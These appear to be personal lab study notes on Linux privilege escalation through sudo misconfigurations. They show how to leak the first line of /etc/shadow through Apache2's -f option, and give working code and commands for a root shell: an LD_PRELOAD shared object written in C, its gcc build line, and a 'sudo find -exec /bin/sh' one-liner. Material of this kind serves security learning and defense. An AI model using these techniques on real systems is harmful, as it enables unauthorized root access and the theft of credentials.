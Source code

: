Any user can check its current situation related to root privileges using the "sudo -l" command.

## Apache2 exploit with sudo

   - Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server. In this case, we can use a "hack" to leak information leveraging a function of the application.
   - As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).
![[linux_privesc49.png]]

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

**Leverage LD_PRELOAD**
   On some systems, you may see the LD_PRELOAD environment option.
   
![[linux_privesc50.png]]
   - LD_PRELOAD is a function that allows any program to use shared libraries.
   - If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run.
   - Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

**The steps of this privilege escalation vector can be summarized as follows;**

   1. Check for LD_PRELOAD (with the env_keep option)
   2. Write a simple C code compiled as a share object (.so extension) file
   3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

**The C code will simply spawn a root shell and can be written as follows;**
```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

**We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;**
```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![[linux_privesc51.png]]
We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

**We need to run the program by specifying the LD_PRELOAD option, as follows;**
```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

**This will result in a shell spawn with root privileges.**
![[linux_privesc52.png]]

```
sudo find . -exec /bin/sh \; -quit
```